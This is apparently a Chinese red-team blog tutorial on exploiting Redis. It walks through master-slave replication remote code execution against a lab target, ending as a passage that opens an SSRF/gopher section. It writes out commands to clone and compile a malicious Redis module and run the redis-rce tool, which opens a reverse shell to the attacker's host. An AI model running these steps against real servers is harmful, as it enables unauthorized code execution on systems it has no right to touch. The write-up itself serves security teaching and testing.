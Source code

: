 #  全文干货！Redis漏洞利用详解 （下）   
原创 LULU  红队蓝军   2024-09-18 19:00  
  
**redis主从复制getshell**  
  
redis当读写体量比较大的时候，影响服务端效率，从而Redis就提供了主从模式，主从模式就是指使用一个redis实例作为主机，其他实例都作为备份机，其中主机和从机数据相同，而从机只负责读，主机只负责写，通过读写分离可以减轻流量  
  
在全量复制过程中,恢复rdb文件,如果我们将rdb文件构造为恶意的exp.so,从节点即会自动生成,使得可以RCE  
  
在Reids 4.x之后，Redis新增了模块功能，通过外部拓展，可以实现在Redis中实现一个新的Redis命令，通过写C语言编译并加载恶意的.so文件，达到代码执行的目的  
  
**复现步骤**  
```
1、开启redis数据库，注意4.X以上需要redis.conf关闭保护模式、
2、在kali上连接靶机redis服务，并设置主从状态（将kali设置为redis主机）
3、在kali上编译恶意代码，生成module.so
   ---git clone https://github.com/n0b0dyCN/RedisModules-ExecuteCommand  #下载工具
   ----cd RedisModules-ExecuteCommand/
   ---- make  #编译
4、kali利用redis-rce工具进行getshell
    ---- git clone https://github.com/Ridter/redis-rce  #下载工具
5、将module.so文件放到利用工具目录下
    ---cd redis-rce/
    ---cp ../RedisModules-ExecuteCommand/src/module.so ./  #将.so工具放到redis-rce目录下
    ---pip install -r requirements.txt 
    ---python redis-rce.py -r 目标ip-p 目标端口 -L 本地ip -f 恶意.so   #执行反弹shell。当然这里也可以执行交互式shell
6、kali进行监听

```  
  
**执行反弹shell复现**  
  
1、将kali设置为主机  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v5JHkCKzLSl0WOjHDTuYsbaXSMibO9ibiaiaejrvhIzSD1mWLGVgw95gXrvKu1hVwaJFdF1XsnhvsKqNg/640?wx_fmt=png&from=appmsg "")  
  
2、下载并编译，得到恶意.so  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v5JHkCKzLSl0WOjHDTuYsbafI9Y2DuUCib0GDZDkiarNOoNaKlgyHvYjF0AuNUgTJSSkZNFrxiazLScQ/640?wx_fmt=png&from=appmsg "")  
  
  
3、下载redis--rce工具，并将恶意.so文件放在该目录下  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v5JHkCKzLSl0WOjHDTuYsbah1S92bMWk1GUNrQD0tWLec5ULjAC9a9Q33tGqM0HXv5dpiafUZaXXOQ/640?wx_fmt=png&from=appmsg "")  
  
  
4、攻击端执行,kali监听  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v5JHkCKzLSl0WOjHDTuYsbaibcsDP0ziaP61t9hGjt43RDicoia11mNiaH3fTgyvRy4sf055ThFPUIzwxQ/640?wx_fmt=png&from=appmsg "")  
### ssrf攻击内网redis  
  
什么是gopher协议  
  
gopher协议支持发出GET、POST请求：可以先截获get请求包和post请求包，在构成符合gopher协议的请求。gopher协议是ssrf利用中最强大的协议。  
  
